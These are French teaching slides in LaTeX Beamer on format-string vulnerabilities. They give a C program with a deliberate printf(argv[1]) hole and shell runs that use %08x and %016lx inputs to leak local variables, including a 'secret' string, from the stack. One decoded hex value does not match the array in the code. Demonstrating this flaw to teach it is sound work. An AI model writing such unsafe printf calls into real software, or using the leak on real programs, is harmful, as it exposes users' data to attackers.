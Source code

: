 \documentclass{beamer}
\begin{document}
\subsection{Exploitation avec \texttt{printf(argv[1])}}

\begin{frame}[fragile]
\frametitle{Un code dangereux : \texttt{printf(argv[1])}}

\begin{lstlisting}[language=C]
#include <stdio.h>
int main(int argc, char **argv)
{
    int u=5,v=9;
    char t[]="abcabcabcabcabcabcabc";
    char s[]="secret";

    printf("%s",argv[1]);  // correct
    printf(argv[1]);       // DANGEREUX !
    printf("\n");
}
\end{lstlisting}

\begin{alertblock}{Danger}
\texttt{printf(argv[1])} utilise l'entrée utilisateur comme chaîne de format : l'attaquant contrôle les formats !
\end{alertblock}

\end{frame}


\begin{frame}[fragile]
\frametitle{Lecture de la pile via \texttt{\%08x} et \texttt{\%016lx}}

\begin{lstlisting}[language=bash,basicstyle=\ttfamily\tiny]
$ ./a.out coucou
coucoucoucou
$ ./a.out coucou%08x
coucou%08xcoucou17bbd006
$ ./a.out coucou%08x%08x%08x%08x
coucou%08x%08x%08x%08xcoucoufcc52006000000000000000100000000
$ ./a.out $(python3 -c "print('coucouuu'+20*'-%016lx')")
coucouuu-...-00746572636573ff-6463626164636261
-0063626164636261-...-0000000500000009-...
\end{lstlisting}

On voit apparaître les variables locales du \texttt{main} :
\begin{itemize}
\item \texttt{"00746572636573ff"} $\rightarrow$ ``secret'' (en hexadécimal)
\item \texttt{"6463626164636261"} $\rightarrow$ ``abcdabca'' (en hexadécimal)
\item \texttt{"0000000500000009"} $\rightarrow$ les valeurs de \texttt{u=5} et \texttt{v=9}
\end{itemize}

\end{frame}
\end{document}
